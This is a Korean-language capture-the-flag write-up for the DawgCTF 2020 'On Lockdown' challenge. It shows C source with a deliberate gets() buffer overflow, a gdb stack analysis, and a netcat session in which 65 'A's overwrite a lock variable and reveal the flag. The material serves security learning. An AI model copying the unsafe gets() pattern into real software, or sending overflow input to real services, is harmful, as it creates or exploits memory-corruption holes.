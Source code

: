 # [WriteUp]DawgCTF 2020 - On Lockdown

:black_nib:N1be(sj.dr.nibe@gmail.com)

---

## Overview

### source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void flag_me(){
	system("cat flag.txt");
}

void lockdown(){
	int lock = 0;
	char buf[64];
	printf("I made this really cool flag but Governor Hogan put it on lockdown\n");
	printf("Can you convince him to give it to you?\n");
	gets(buf);
	if(lock == 0xdeadbabe){
		flag_me();
	}else{
		printf("I am no longer asking. Give me the flag!\n");
	}
}

int main(){
	lockdown();
	return 0;
}

```

`lockdown()`에서는 `gets()`로 버퍼에 입력을 받는데, `lock`의 값이 `0xdeadbabe`이면 플래그를 준다.

### assembly code

```shell
gdb-peda$ pd lockdown
Dump of assembler code for function lockdown:
...
   0x56556228 <+68>:	call   0x56556030 <gets@plt>
   0x5655622d <+73>:	add    esp,0x10
   0x56556230 <+76>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x56556234 <+80>:	je     0x5655623d <lockdown+89>
   0x56556236 <+82>:	call   0x565561b9 <flag_me>
...
End of assembler dump.
```

왜인지 모르겠는데 어셈블리로 보면 약간 다르다. `ebp-0xc`에 저장된 값이 0이 아니면 플래그를 준다.

---

## Exploit plan

```shell
gdb-peda$ r
Starting program: /home/dr-nibe/DawgCTF2020/onlockdown 
I made this really cool flag but Governor Hogan put it on lockdown
Can you convince him to give it to you?
aaaa
...
Breakpoint 1, 0x5655622d in lockdown ()
gdb-peda$ x/40wx $esp
0xffffd0e0:	0xffffd0fc	0x00000000	0x00000000	0x565561f0
0xffffd0f0:	0x56556080	0xffffd1f4	0xf7fb4000	0x61616161
0xffffd100:	0xf7fb2a00	0x00080000	0xf7fb4000	0xf7fb7c88
0xffffd110:	0xf7fb4000	0xf7fe39f0	0x00000000	0xf7e03552
0xffffd120:	0xf7fb43fc	0x56558fd0	0xffffd1fc	0x565562c3
0xffffd130:	0x00000001	0xffffd1f4	0xffffd1fc	0x00000000
0xffffd140:	0xf7fe39f0	0x00000000	0xffffd158	0x5655626a
0xffffd150:	0xf7fb4000	0xf7fb4000	0x00000000	0xf7de9fb9
0xffffd160:	0x00000001	0xffffd1f4	0xffffd1fc	0xffffd184
0xffffd170:	0xf7fd3aa0	0xf7ffd000	0xf7fb4000	0x00000000
gdb-peda$ i r ebp
ebp            0xffffd148          0xffffd148
```

`gets()`에 입력으로 `"aaaa"`를 줬을 때 스택의 상태이다. `0xffffd0fc`에 입력한 문자열이 들어가 있는 것을 확인할 수 있다. `ebp-0xc`는 `0xffffd13c`이다. 지금은 0이 들어가 있다. `gets()`에서 `0x40`바이트보다 긴 문자열을 입력하면 `0xffffd13c`를 넘어가게 되어 플래그를 얻을 수 있을 것이다.

---

## Exploit

```shell
dr-nibe@ubuntu:~/DawgCTF2020$ nc ctf.umbccd.io 4500
I made this really cool flag but Governor Hogan put it on lockdown
Can you convince him to give it to you?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
DawgCTF{s3ri0u$ly_st@y_h0m3}
```

